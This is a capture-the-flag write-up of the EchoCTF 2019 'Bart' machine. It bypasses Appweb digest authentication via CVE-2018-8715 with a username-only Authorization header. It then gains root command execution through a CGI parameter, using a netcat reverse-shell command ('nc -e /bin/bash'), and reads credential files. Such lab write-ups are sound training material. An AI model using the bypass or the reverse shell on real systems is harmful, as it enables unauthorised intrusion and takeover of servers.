 <br>
<pre class="">    |\/\  ,.
    /   `' |,-,
   /         /_
 _/            /
(.-,--.       /
/o/  o \     /    Bart writeup
\_\    /   _/     URL: bart.echocity-f.com
(__`--'    _)     Author: HitmanAlharbi
 /         |      Team: Blackfoxs
(_____,'    \ 
   \_       _\
     `._..-'
</pre>

<br>

<b>Bart wrtieup for EchoCTF Cyber Saber 2019</b>

<br>

The target machine have one "<b><font color=green>open port</font></b>" (<b>8080</b>) 

This port have a service called "<b><font color=blue>Appweb Web Server</font></b>"

Let's open the URL with port <b>8080</b> in the browser because it's web server

When you open the URL it will ask you a password "<b>HTTP Authorization</b>"

We tried default credentials like "admin:admin" but not works

We tried too to brute force the password and username but now works

Okay now we decide to search about "<b>Appweb Web Server</b>" vulnerabilities

We have four CVEs but only one was interesting "<b><font color=red>CVE-2018-8715</font></b>" 

https://github.com/embedthis/appweb/issues/610

The CVE Vulnerability Details said that to bypass the the authentication

You should send the Authorization header with username only without password

For example: "<b><font color=blue>Authorization: Digest username=admin</font></b>"

We test it and really we bypassed the authorization successfully

Now take your flag from the source code and you will discover the main page was fake

We tried to fuzz the URLs but the web server blocked our attempts 

But we know the <b>EchoCTF</b> makers love to use the word "<b>ETSCTF</b>"

Because of that we tried many attempts and we find there is a page called <b><font color=blue>ETSCTF.cgi</font></b>

The Appweb server can run .cgi files without any problem 

Now this page runs the command "<b><font color=red>printenv</font></b>" , first take the two flags from page

The last step to get RCE , try to send a POST request with the parameter "<b><font color=red>ETSCTF</font></b>" has the command

For example: "<b><font color=blue>ETSCTF=nc -e /bin/bash target-ip port</font></b>"

Now you can execute commands with root permissions 

Take all the flags from server like <b>/etc/passwd</b> , <b>/root/ETSCTF</b> and <b>/var/www/html/ETSCTF.html</b>

PS: use grep always for example ( <b> grep -r 'ETSCTF' /var </b> )




